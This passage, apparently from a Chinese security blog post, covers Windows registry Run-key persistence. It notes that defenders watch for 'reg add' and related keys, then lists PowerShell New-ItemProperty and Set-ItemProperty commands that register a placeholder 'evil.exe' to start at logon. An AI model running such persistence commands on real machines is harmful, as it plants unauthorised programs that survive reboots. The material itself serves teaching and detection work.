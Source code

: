 对于防守方而言，最常见的方法就是对 reg add 以及上诉所提及的注册表键值进行检测  
以及我们的 CompatTelRunner.exe  
当然，除了通过 reg add 添加注册表，我们还可以通过 powershell 添加注册表  
powershell.exe New-ItemProperty -Path "HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run" -Name "evil" -PropertyType String -Value "C:\\Users\\axingg\\desktop\\evil.exe"  
[![](assets/1706145586-59707e876d45af8a6f69ba4790123b97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124111200-5719994e-ba66-1.png)  
注册表相关属性值如下：  
[![](assets/1706145586-ef0b855ff449854d1d445697317653d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124111351-993f703c-ba66-1.png)  
powershell.exe New-ItemProperty "HKCU:\\software\\microsoft\\windows\\currentversion\\run" calc -value "C:\\Users\\axingg\\desktop\\evil.exe" -propertyType string //减少相关参数  
powershell.exe Set-ItemProperty -Path "HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run" -Name "test" -Value "C:\\Users\\axingg\\desktop\\evil.exe" -Force //强制执行
